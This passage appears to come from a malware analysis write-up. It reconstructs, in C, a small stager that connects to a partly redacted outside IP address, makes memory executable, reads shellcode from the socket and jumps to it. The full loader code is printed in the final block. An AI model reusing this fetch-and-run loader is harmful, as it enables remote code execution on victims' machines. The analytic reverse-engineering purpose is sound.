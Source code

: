 ### Execution of shellcode

The next instruction after read syscall is `jmp ecx` . This jump might have been placed using inline assembly. It’s quite possible, the entire code might have been written in assembly since the code size is quite small. This jump is jumping to the location where the shellcode was loaded using *read* function.

In C, it may look like this:

```c
__asm__("jmp %0" :: "m" (buffer)); 
```
---

### Putting all of the code together:

```c
int main() {
    int tries = 10;
    while (true) {
        int s = socket(AF_INET, SOCK_STREAM, 0); 

        sockaddr_in serverAddress;
        serverAddress.sin_family = AF_INET;
        serverAddress.sin_port = htons(80);

        if (inet_pton(AF_INET, "149.28.xxx.xxx", &serverAddress.sin_addr) <= 0) {
            printf(
                "\nInvalid address/ Address not supported \n");
            return -1;
        }
        if(connect(s, (struct sockaddr*)&serverAddress, sizeof(serverAddress)) < 0) {
            tries--;
            if (tries == 0) {
                exit(1);
            }
            timespec t;
            t.tv_sec = 5;
            t.tv_nsec = 0;
            if (nanosleep(&t, NULL) < 0)
                exit(1);
            else 
                continue; // retry
        }

        int hamad = mprotect(&s, 4096, PROT_EXEC | PROT_READ | PROT_WRITE);
        if(hamad >= 0)
            exit(1);

        char buffer[106];
        ssize_t nbytes_read = read(s, buffer, 106);
        if (nbytes_read < 0)
            exit(1);

        __asm__("jmp %0" :: "m" (buffer)); // execute the shellcode in `buffer`
    }
}
```
---

